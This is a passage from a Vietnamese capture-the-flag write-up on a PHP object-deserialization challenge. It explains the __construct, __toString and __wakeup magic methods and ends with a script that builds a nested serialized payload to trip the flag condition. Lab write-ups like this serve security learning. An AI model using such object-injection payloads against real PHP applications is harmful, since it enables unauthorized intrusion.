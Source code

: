     > Trong PHP, __construct() là một phương thức đặc biệt trong lập trình hướng đối tượng được gọi tự động khi một đối tượng được tạo ra từ một class.

    ```php
    function __construct($receive) {
            if ($receive === "HelloBooooooy") {
                die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
            } else {
                $this->receive = $receive;
            }
        }
    ```

- Để có được giá trị của `$getflag` là True thì magic method `__toString()` phải được gọi.

    > Trong PHP, __toString() là một phương thức đặc biệt trong lập trình hướng đối tượng được sử dụng để định nghĩa cách đối tượng được chuyển đổi thành một chuỗi.
    
    ```php
    function __toString() {
        global $getflag;
        $getflag = true;
        return (new GetMessage($this->msg))->receive;
    }
    ```
    
    Mà để biến `$this->msg` được ép kiểu thành string thì em lại có trong magic method `__wakeup()`:
    
    >  Trong PHP, __wakeup() là một phương thức đặc biệt sẽ được gọi tự động khi một đối tượng được unserialize.
    
    ```php
    function __wakeup() {
        echo "[YOU]: ".$this->msg."<br>";
    }
    ```
    
Sau nhiều bế tắc em đã tham khảo bài https://github.com/caodchuong312/KCSC-Training/tree/main/task11 và có script:
```php
<?php
$getflag = false;

class GetMessage
{
    public $receive;
}

class WakyWaky
{
    public $msg;
    function __construct($msg)
    {
        $this->msg = $msg;
    }
}

$first = new GetMessage('something');
$first->receive = 'HelloBooooooy';

$second = new WakyWaky($first);
$third = new WakyWaky($second);
echo serialize($third);
```
